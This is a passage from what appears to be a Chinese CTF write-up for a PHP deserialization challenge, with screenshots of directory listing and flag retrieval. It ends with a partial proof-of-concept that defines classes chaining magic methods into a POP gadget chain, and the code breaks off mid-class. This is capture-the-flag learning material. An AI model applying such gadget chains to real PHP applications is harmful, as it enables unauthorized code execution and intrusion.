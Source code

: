 直接看当前目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/1f95fd95005b48ec89009ace001a308e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这里又耍我一轮
![在这里插入图片描述](https://img-blog.csdnimg.cn/d99b0c9650334279b85fb169714bf77b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

拿到flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/2e984aaad40344c28278e058f251ebf3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

最后的poc

```php
<?php

class crow
{
    public $v1;
    public $v2;
    public function __construct($a,$b){
        $this->v1 = $a;
        $this->v2 = $b;
    }
    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
    }
}

class fin
{
    public $f1;
    public function __construct($a){
        $this->f1 = $a;
    }

    public function __destruct()
    {
        echo $this->f1 . '114514';
    }

    public function run()
    {
        ($this->f1)();
    }

    public function __call($a, $b)
    {
        echo $this->f1->get_flag();
    }

}

class what
{
    public $a;
    public function __construct($a){
        $this->a = $a;
    }

```